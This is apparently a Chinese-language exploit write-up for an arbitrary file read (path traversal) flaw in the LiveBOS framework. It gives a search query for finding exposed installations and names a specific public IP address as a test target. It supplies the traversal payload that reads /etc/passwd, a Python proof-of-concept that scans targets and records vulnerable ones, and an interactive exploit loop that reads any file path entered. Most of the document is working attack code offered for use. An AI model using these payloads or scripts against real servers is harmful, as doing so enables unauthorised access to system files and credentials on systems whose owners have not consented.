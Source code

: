 ## 一、资产搜索

```
app="LiveBOS-框架" && body=" Power by LiveBOS"
```

## 二、网站测试

```
http://218.5.27.51:8080
```

## 三、验证漏洞

```
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

![image-20240918192918879](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918192918879.png)

## 四、POC

```
def poc(target):
    payload = "/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "root" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = f"/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../.."
        res1 = requests.get(url=target, verify=False,timeout=5)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload + content, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240918193420430](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918193420430.png)

![image-20240918193357831](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918193357831.png)

![image-20240918193515126](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240918193515126.png)

